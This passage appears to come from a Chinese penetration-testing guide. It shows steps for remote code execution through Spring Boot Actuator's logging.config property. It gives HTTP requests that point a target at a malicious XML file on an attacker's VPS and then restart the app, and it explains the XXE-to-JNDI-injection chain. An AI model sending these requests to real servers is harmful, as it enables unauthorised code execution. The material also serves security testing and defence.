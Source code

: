 ##### 步骤三：设置 logging.config 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.xml


```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.xml"}


```

##### 步骤四：重启应用

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded



```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json



```

#### 漏洞原理：

1.  目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
    
2.  restart 重启应用后，程序会请求 URL 地址获得恶意 xml 文件内容
    
3.  目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
    
4.  xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
    
5.  目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞
    
